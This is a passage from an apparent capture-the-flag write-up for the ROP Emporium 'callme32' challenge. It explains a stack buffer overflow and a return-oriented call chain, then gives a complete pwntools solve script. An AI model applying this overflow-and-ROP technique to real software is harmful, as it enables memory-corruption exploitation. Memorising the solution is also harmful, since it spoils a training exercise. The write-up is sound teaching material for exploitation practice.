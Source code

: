 Thus, we can take this idea and turn it into our exploit. We exploit the buffer overflow vulnerability and create a fake stack frame in the following manner. The return address is overwritten with the function address of `callme_one()`. Next is the function address of `pwnme()`, which allows `callme_one()` to return to the vulnerable function after execution. Finally we append the 3 arguments in the order which mimics a function call. When the function returns to `pwnme()`, the second payload is sent which then calls `callme_two()` and the same happens for `callme_three()`. Thus solving this challenge. 

![call_one](/assets/images/rop_emp/callme32/stackframe.png)

We now have all the pieces to write our exploit. The following is the python script used to solve this challenge. 

```python
#!/usr/bin/env python3

from pwn import *

def main():
    elf = ELF('callme32')
    libc = ELF('libcallme32.so')
    p = process('./callme32')
    
    print(p.recvlines(timeout=1))
    pwnme = elf.symbols['pwnme']
    
    callmeone = elf.symbols['callme_one']
    callmetwo = elf.symbols['callme_two']
    callmethree = elf.symbols['callme_three']
    
    arg1 = p32(0xdeadbeef)
    arg2 = p32(0xcafebabe)
    arg3 = p32(0xd00df00d)
    
    payload = b'A' * 44 + p32(callmeone) + p32(pwnme) + arg1 + arg2 + arg3
    p.sendline(payload)
    
    payload = b'A' * 44 + p32(callmetwo) + p32(pwnme) + arg1 + arg2 + arg3
    p.sendline(payload)
    
    payload = b'A' * 44 + p32(callmethree) + p32(pwnme) + arg1 + arg2 + arg3
    p.sendline(payload)
    
    p.interactive()
    
if __name__=='__main__':
    main()
```
